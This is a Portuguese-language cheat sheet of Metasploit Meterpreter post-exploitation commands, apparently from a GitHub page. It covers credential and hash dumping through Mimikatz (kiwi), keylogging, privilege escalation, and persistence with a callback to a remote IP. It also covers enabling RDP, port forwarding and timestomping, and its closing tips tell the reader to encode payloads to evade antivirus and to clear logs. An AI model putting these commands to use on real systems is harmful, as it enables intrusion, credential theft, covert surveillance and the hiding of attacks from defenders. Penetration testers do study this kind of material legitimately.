 ## O que é Meterpreter?
Meterpreter (Meta-Interpreter) é um payload avançado e dinâmico do Metasploit que fornece um shell interativo com amplas capacidades de pós-exploração.

## Comandos Principais por Categoria

### 1. COMANDOS BÁSICOS DO SISTEMA

```bash
# Navegação e informações do sistema
pwd                    # Mostra diretório atual
getwd                  # Mostra diretório de trabalho
cd [diretório]         # Muda diretório
ls                     # Lista arquivos
cat [arquivo]          # Exibe conteúdo do arquivo

# Informações do sistema
sysinfo                # Informações do sistema operacional
getuid                 # Mostra usuário atual
getpid                 # Mostra ID do processo
ps                     # Lista processos em execução
```

### 2. COMANDOS DE ARQUIVOS

```bash
# Manipulação de arquivos
download [arquivo]     # Baixa arquivo da máquina alvo
upload [arquivo]       # Envia arquivo para a máquina alvo
edit [arquivo]         # Edita arquivo com editor padrão
rm [arquivo]           # Remove arquivo
mkdir [diretório]      # Cria diretório
rmdir [diretório]      # Remove diretório
search -f [padrão]     # Busca arquivos por padrão
```

### 3. COMANDOS DE REDE

```bash
# Informações de rede
ipconfig/ifconfig      # Mostra configurações de rede
netstat                # Exibe conexões de rede
route                  # Mostra tabela de roteamento
arp                    # Exibe tabela ARP

# Port forwarding
portfwd add -l [porta_local] -p [porta_remota] -r [ip_alvo]
portfwd list           # Lista encaminhamentos ativos
portfwd delete         # Remove encaminhamento
```

### 4. COMANDOS DE PRIVILÉGIOS

```bash
# Escalação de privilégios
getsystem              # Tenta elevar privilégios para SYSTEM
getprivs               # Mostra privilégios disponíveis
run post/windows/gather/smart_hashdump  # Extrai hashes SAM
```

### 5. COMANDOS DE KEYLOGGING

```bash
# Captura de teclas
keyscan_start          # Inicia keylogger
keyscan_dump           # Mostra teclas capturadas
keyscan_stop           # Para keylogger
```

### 6. COMANDOS DE MIGRAÇÃO DE PROCESSO

```bash
# Migração entre processos
migrate [PID]          # Migra para outro processo
run post/windows/manage/migrate  # Migração automática
```

### 7. COMANDOS DE PERSISTÊNCIA

```bash
# Persistência no sistema
run persistence -h     # Mostra opções de persistência
run metsvc             # Instala serviço Meterpreter
run getgui -e          # Habilita RDP
```

### 8. COMANDOS DE RECONHECIMENTO

```bash
# Coleta de informações
run post/windows/gather/checkvm           # Verifica se é VM
run post/multi/gather/env                 # Coleta variáveis de ambiente
run post/windows/gather/enum_applications # Lista aplicações instaladas
```

### 9. COMANDOS DE SHELL

```bash
# Interação com sistema
shell                  # Abre shell do sistema
execute -f [arquivo]   # Executa arquivo
execute -f cmd -i      # Executa cmd interativamente
```

### 10. COMANDOS AVANÇADOS

```bash
# Módulos avançados
load [extensão]        # Carrega extensões (python, powershell, etc.)
load kiwi              # Carrega Mimikatz
creds_all              # Mostra todas as credenciais (após carregar kiwi)

# Timestomp
timestomp [arquivo] -h # Manipula timestamps de arquivos
```

### 11. COMANDOS DE SAÍDA

```bash
# Gerenciamento da sessão
background             # Coloca sessão em segundo plano
sessions -i [ID]       # Retorna para sessão específica
exit                   # Encerra sessão Meterpreter
```

## Exemplos Práticos Comuns

### 1. Coleta de Hashes
```bash
getsystem
load kiwi
creds_all
hashdump
```

### 2. Persistência Básica
```bash
run persistence -U -i 60 -p 443 -r 192.168.1.100
```

### 3. Port Forwarding
```bash
portfwd add -l 3389 -p 3389 -r 192.168.1.50
```

### 4. Keylogging
```bash
keyscan_start
# Aguarde usuário digitar...
keyscan_dump
keyscan_stop
```

## Dicas Importantes

1. **Sempre migre** para um processo estável após acesso
2. **Use encoding** para evitar detecção por antivírus
3. **Limpe logs** após atividades
4. **Use HTTPS** para comunicações
5. **Monitore recursos** do sistema alvo
